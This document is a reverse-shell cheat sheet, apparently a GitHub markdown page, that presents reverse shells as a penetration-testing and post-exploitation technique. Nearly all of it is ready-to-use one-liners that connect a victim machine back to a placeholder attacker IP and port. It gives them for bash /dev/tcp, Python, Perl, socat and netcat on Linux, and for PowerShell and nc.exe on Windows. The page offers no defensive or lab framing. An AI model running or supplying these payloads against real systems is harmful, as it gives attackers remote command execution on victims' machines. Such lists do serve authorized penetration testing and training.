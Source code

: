 A reverse shell is a connection established from the victim's machine back to the attacker's machine, enabling remote control. This is a key technique in penetration testing and post-exploitation, often bypassing firewalls that block incoming connections.

## Common Reverse Shell Commands

#### Linux Reverse Shells

1. **Bash Reverse Shell**
```bash
bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1
```

2. **Python Reverse Shell**
```bash
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<attacker_ip>",<attacker_port>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh"])'
```

3. **Perl Reverse Shell**
```bash
perl -e 'use Socket;$i="<attacker_ip>";$p=<attacker_port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


4. **Socat Reverse Shell**
```bash
socat TCP:<attacker_ip>:<attacker_port> EXEC:/bin/sh
```


5. **Netcat Reverse Shell**
```bash
nc -e /bin/bash <attacker_ip> <attacker_port>
```

#### Windows Reverse Shells

1. **PowerShell Reverse Shell**
```bash
$client = New-Object System.Net.Sockets.TCPClient("<attacker_ip>",<attacker_port>); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2  = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}
```

2. **Netcat Reverse Shell**
```bash
nc.exe -e cmd.exe <attacker_ip> <attacker_port>
```

3. **Python Reverse Shell**
Same as the Linux Python example, but ensure Python is installed on the Windows target.

